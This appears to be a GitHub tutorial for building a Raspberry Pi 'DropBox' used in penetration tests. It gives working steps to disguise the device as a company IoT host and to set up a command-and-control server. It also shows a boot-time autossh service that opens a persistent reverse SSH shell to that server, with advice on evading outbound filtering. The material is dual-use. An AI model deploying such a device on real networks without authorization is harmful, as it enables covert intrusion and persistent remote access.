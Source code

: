 # How to create a simple Pentesting DropBox using a raspberry pi

Why should I use a Raspberry Pi? The main reason is for its small size. It’s possible to hide it in plain sight and easily disguise it as an IoT device on the network.

Another reason is that most companies’ firewalls will block unauthorized access to it. So if one can smuggle a small device onto its network, it’s possible to get a reverse shell and scan the network from somewhere else.
## How to get pass firewall?

The best possible solution is to get the DropBox inside the network to reach back to a C2 (command and control) server. And reach the DropBox from anywhere using the reverse shell through SSH, using the C2 as a passthrough tunnel.

![Reverse Shell](https://github.com/dlirao4891/DropBox/blob/main/Images/blog.finxter.com-reverseshell-768x432.jpg?raw=true)

## Kali installation 
### Image download and install
Kali can be installed right from the [Raspberry Pi Imager](https://www.raspberrypi.com/software/) or following the guide on [Kali](https://www.kali.org/docs/arm/raspberry-pi-4/) The Process is really easy.

After installing Kali on the Raspberry Pi, SSH into it. You can find its IP address using your router.
```bash
ssh kali@[kali-IP]
```
The default user and password are `kali:kali`

Update and upgrade 
```bash
sudo apt update && sudo apt full-upgrade
```

**After that, change the default password for the `Kali` user.**

### Minor modifications

The whole idea is to hide in plain sight, so some modifications must be made so the DropBox can disguise as an IoT device.

First, change the hostname in two locations: `/etc/hostname` and `/etc/hosts`. 
Here, anything is valid as long as it looks like it belongs to the company. If you can get the scheme of how the devices are named, it can be easily passed off as just another host.

>On `/etc/hostname`, choose the name you want.
>On `/etc/hosts`, use the same name on the line containing the loopback address (`127.0.1.1`).

After this step, the DropBox will mostly look like it’s just another host on the network. Of course, there are situations when the company adopts MAC-address filtering. And This can be a problem.

At this point, the basic configuration is done on the Raspberry Pi. But we will come back to it soon.

---
## C2 settings

A crucial part of this is the Command and Control server. It’s the middle-man in the communication. The DropBox will try to make contact with it, and when the connection is established, the reverse shell will be accessible.

For this, I decided to use a Ubuntu 22.04 LTS on [Linode](www.linode.com). It's just a basic shared CPU with privet IP.
### SSH configuration
On the file `/etc/ssh/sshd_config`, we have to change three lines:

```bash
AllowTcpForwarding yes
GatewayPorts yes
PasswordAuthentication yes
```
This will enable port forwarding and enable authentication using a password.

After changing the lines, just restart the SSH service.
```bash
sudo service ssh restart
```

### User
A new Ubuntu “linode” installation will have only the root user, so we’ll add a new user.
```bash
adduser [username]
```

After this, the **basic** configuration for the C2 will be ready.

> For a real engagement, it’s recommended to strengthen the security of the C2. **This configuration is just for demonstration.**
 
---

## Create the reverse shell tunnel

At this point, we go back to the Raspberry Pi, and the main idea now is to generate a pair of keys (public and private), so the DropBox can authenticate SSH into the C2 server without a password. For this, we will create an `SSH keypair`.
```bash
ssh-keygen
```
Just generate the keypair; there is no need for a password.

Copy the public key to the C2 server
```bash
ssh-copy-id [username]@[CnC-Server-IP]
```
Provide the password for the user.

After this, it’s not necessary to enter a password to connect to the server.
```bash
ssh [username]@[CnC-Server-IP]
```

### AutoSSH

Install `AutoSSH`. For more info about it see [SSH tunnelling for fun and profit: Autossh (everythingcli.org)](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/)

```bash
apt install autossh -y
```

The idea is to automate the SSH tunnel. So when the DropBox is turned on and is plugged into a network, it will automatically connect to the C2, and the reverse shell will be on.

After the installation is complete, we should create a service, so the autossh will start automatically. To create the service, first create the file `/etc/systemd/system/[Some_Cool_Service_Name].service` and add the following to it:
```bash
[Unit]
 Description=/etc/[Same_Cool_Sevice_Name] Compatibility
 ConditionPathExists=/etc/[Same_Cool_Sevice_Name]
[Service]
 Type=forking
 ExecStart=/etc/[Same_Cool_Sevice_Name] start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

And then the next file `/etc/[Same_Cool_Sevice_Name]`. Add the following:
```bash
#!/bin/bash -e
autossh -M 0 -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 6969:localhost:22 -i /home/kali/.ssh/id_rsa [kali]@[CnC-Server-IP] &
exit 0
```

- The `-M` is the monitoring port. autossh will send test data to check if it is still connected to the server. The autossh manual suggests using `ServerAliveInterval` and `ServerAliveCountMax` on recent versions of OpenSSH. But the monitoring port can be turned off using the value 0.
- The `-f` causes `autossh` to drop to the background before running `ssh`.
- The `-N` tag is for not executing a remote command. 
- Tag `-o` is to specify the options.
- The `-R` option is used to set the remote port. In this case, the Dropbox will be accessible on port 6969. If the organization has strict outbound filtering policies, a good option for this is port 443.
- The `-i` sets the location from where `ssh` will find the privet key.
- And the `&` is to prevent the DropBox to hang at boot.

Make `/etc/[Same_Cool_Sevice_Name]` executable:
```bash
chmod +x /etc/[Same_Cool_Sevice_Name]
```

Enable `[Same_Cool_Sevice_Name].service`

```bash
systemctl enable [Same_Cool_Sevice_Name]
systemctl start [Same_Cool_Sevice_Name].service
```

## Test connection

After plugging the DropBox into a test network, you can check the SSH connection by logging in first from the C2 server:

```bash
ssh kali@localhost -p 6969
```
Enter the password for the `kali` user. Note that the port must be the same one that was set on `autossh`.

Next, you can log in from any other place:

```bash
ssh kali@[CnC-Server-IP] -p 6969
```
